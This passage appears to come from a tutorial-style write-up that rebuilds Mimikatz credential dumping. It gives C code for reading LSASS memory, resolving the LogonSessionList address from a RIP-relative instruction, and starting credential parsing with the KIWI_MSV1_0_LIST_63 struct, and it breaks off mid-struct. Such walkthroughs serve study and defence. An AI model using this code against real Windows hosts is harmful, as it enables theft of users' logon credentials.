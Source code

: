 So with that we search for the assembly bytes and once we have them extract the offset/`disp32`:

```c
if (!ReadProcessMemory(hTarget, pLslActual, leaBytes, sizeof(leaBytes), &bytesRead) || bytesRead != sizeof(leaBytes)) {
	printf("Failed to read remote memory. Error: %lu\n", GetLastError());
	CloseHandle(hTarget);
	return 1;
}
if (bytesRead == sizeof(leaBytes) && leaBytes[0] == 0x48 && leaBytes[1] == 0x8D && leaBytes[2] == 0x0D) {
	// extract displacement
	int32_t disp32 = *(int32_t*)&leaBytes[3];

```

but remember that the offset is applied from the NEXT instruction so we have to add 7 bytes:

```c
	// next instruction is leaAddr + 7
	UINT64 nextInstr = (UINT64)pLslActual + 7;
```

And that then allows us to find the `LogonSessionList` address which we store inside of `target`. then shift to `pLogonSessoin`
```c
	target = nextInstr + disp32;

	printf("RIP-relative target = 0x%llx\n", target); //i need to learn how this shit works like actually cos this is so confusing.
}

printf("Offset of Credentials = 0x%zx\n",offsetof(KIWI_MSV1_0_LIST_63, Credentials)); //offset A0?

PVOID pLogonSessionList = (PVOID)(uintptr_t)target;
```

## Credentials Extraction


Now with the `LogonSessionList` we get into the meat of Mimikatz, and this project.  Finding out where the credentials are stored, and parsing them out.  Lets go back to the `PKIWI_MSV1_0_LIST_63`.

```c
typedef struct _KIWI_MSV1_0_LIST_63 {
    struct _KIWI_MSV1_0_LIST_63* Flink;
    struct _KIWI_MSV1_0_LIST_63* Blink;
    PVOID unk0;
    ULONG unk1;
    PVOID unk2;
    ULONG unk3;
    ULONG unk4;
    ULONG unk5;
    HANDLE hSemaphore6;
    PVOID unk7;
    HANDLE hSemaphore8;
    PVOID unk9;
    PVOID unk10;
    ULONG unk11;
    ULONG unk12;
    PVOID unk13;
    LUID LocallyUniqueIdentifier;
    LUID SecondaryLocallyUniqueIdentifier;
    UCHAR waza[12];
    LSA_UNICODE_STRING UserName;
    LSA_UNICODE_STRING Domaine;
    PVOID unk14;
```